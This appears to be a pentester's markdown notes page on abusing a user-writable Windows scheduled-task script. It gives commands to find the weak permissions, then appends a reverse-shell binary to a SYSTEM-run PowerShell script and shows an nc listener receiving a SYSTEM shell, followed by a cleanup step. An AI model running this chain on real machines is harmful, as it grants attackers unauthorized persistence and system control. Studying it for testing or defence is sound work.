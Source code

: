 # Living off the Land

Schedule tasks are predefined actions that can be automatically executed when a certain number of conditions are met. If the attackers were able to find any kind of misconfiguration or if it's enabled to let the users to modify it which will be taken an advantage and can be used as a persistence technique.

## 01 - Detect

### 1.1 - Command Prompt

```
C:\> schtasks /query /fo LIST 2>nul | findstr TaskName

C:\> dir C:\DevTools\
 Volume in drive C has no label.
 Volume Serial Number is 54A8-AA62

 Directory of C:\DevTools

06/05/2020  07:32 AM               173 CleanUp.ps1
               1 File(s)            173 bytes
               0 Dir(s)  31,294,156,800 bytes free


C:\> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log

C:\> icacls C:\DevTools\CleanUp.ps1
C:\DevTools\CleanUp.ps1 BUILTIN\Users:(M)
                        NT AUTHORITY\SYSTEM:(F)
                        BUILTIN\Administrators:(F)
                        WIN-QBA94KB3IOF\Administrator:(F)
                        NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        BUILTIN\Users:(I)(RX)
```

### 1.2 - Powershell

```
PS C:\> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | Format-Table TaskName,TaskPath,State

PS C:\> Get-ACL C:\DevTools\CleanUp.ps1 | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\DevTools\CleanUp.ps1
Owner  : BUILTIN\Administrators
Group  : WIN-QBA94KB3IOF\None
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Modify, Synchronize
         WIN-QBA94KB3IOF\Administrator Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:S-1-5-21-3025105784-3259396213-1915610826-513D:AI(A;;FA;;;SY)(A;;FA;;;BA)(A;;0x1301bf;;;BU)(A;;FA;;;LA)(
         A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)
```

## 02 - Exploit

TODO: Take timestamps via powershell

```
C:\> copy shell.exe C:\Temp\shell.exe

C:\> copy C:\DevTools\Cleanup.ps1 Cleanup.bak

C:\> echo C:\Temp\shell.exe >> C:\DevTools\Cleanup.ps1

C:\> type C:\DevTools\Cleanup.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
C:\Temp\shell.exe

$ sudo nc -lnvp 53

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.138.58.
Ncat: Connection from 10.10.138.58:49935.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## 03 - Cleanup

```
C:\Windows\system32> copy Cleanup.bak C:\DevTools\Cleanup.ps1
```